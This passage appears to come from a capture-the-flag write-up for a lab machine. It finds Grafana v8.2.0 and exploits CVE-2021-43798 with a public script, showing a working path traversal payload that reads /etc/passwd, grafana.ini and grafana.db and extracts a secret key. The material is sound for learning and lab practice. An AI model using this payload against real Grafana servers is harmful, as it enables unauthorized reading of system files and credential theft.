 looking further the port `3000` is actually a login page.

![image](/images/Pasted image 20221121211547.png)

we saw that `Grafana v8.2.0` was used. a short google search brought up a vulnerability that we could exploit.

### Grafana exploit CVE-2021-43798

[Grafana exploit](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)

```shell
$ python3.9 exploit.py
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/
                @pedrohavay / @acassio22

? Enter the target list:  targets.txt

========================================

[i] Target: http://ambassador.htb:3000

[!] Payload "http://ambassador.htb:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.

[i] Analysing files...

[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_ambassador_htb_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_ambassador_htb_3000/grafana.ini".

[i] File "/etc/passwd" found in server.
[*] File saved in "./http_ambassador_htb_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_ambassador_htb_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_ambassador_htb_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

[*] Bye Bye!

```
